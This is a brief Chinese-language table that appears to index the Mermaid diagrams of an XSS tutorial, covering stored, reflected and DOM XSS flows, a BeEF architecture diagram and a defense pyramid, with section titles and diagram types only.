| 「2.2 流程图」节 · 存储型 XSS 攻击时序（六步跨方） | sequenceDiagram |
| 「2.2 流程图」节 · 反射型 XSS 攻击时序 | sequenceDiagram |
| 「5. DOM XSS 详解：Source 与 Sink」节 · source→sink 污点流 | flowchart LR |
| 「8. BeEF 工具简介」节 · BeEF 架构图 | flowchart LR |
| 「13. 防御专章（重点）」节 · 防御金字塔 | flowchart TD |
